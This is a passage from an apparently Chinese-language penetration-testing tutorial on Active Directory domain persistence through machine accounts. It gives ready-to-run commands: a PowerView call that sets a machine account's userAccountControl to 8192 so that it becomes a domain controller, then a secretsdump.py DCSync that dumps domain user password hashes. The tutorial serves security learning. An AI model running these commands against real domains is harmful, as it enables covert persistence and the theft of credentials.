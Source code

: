 （3）执行以下命令，通过 PowerView.ps1 将 `PENTEST$` 账户的 `userAccountControl` 属性值设为 8192，这将更改账户的主要组 ID 为 516，如图下所示。此时，`PENTEST$` 账户的主要组被改为了 Domain Controllers，也就是域控制器组。

```powershell
Import-Module .\PowerView.ps1
Set-DomainObject -Identity "PENTEST$" -Set @{"userAccountControl" = 8192} -Verbose
```

![](/assets/posts/2022-01-17-domain-persistence-machine-accounts/QidlvPF4Kcxn5MR.png)

如下图所示，此时 `PENTEST$` 账户已经是一台域控制器了。

![](/assets/posts/2022-01-17-domain-persistence-machine-accounts/ih6fPeKzpEZvJkY.png)

（4）由于其拥有所需的特权并且账户密码已知，所以可直接通过 secretsdump.py 执行 DCSync 操作来导出域用户哈希，如图所示。

```cmd
python3 secretsdump.py pentest.com/PENTEST\$:Passw0rd@172.26.10.11 -just-dc
```

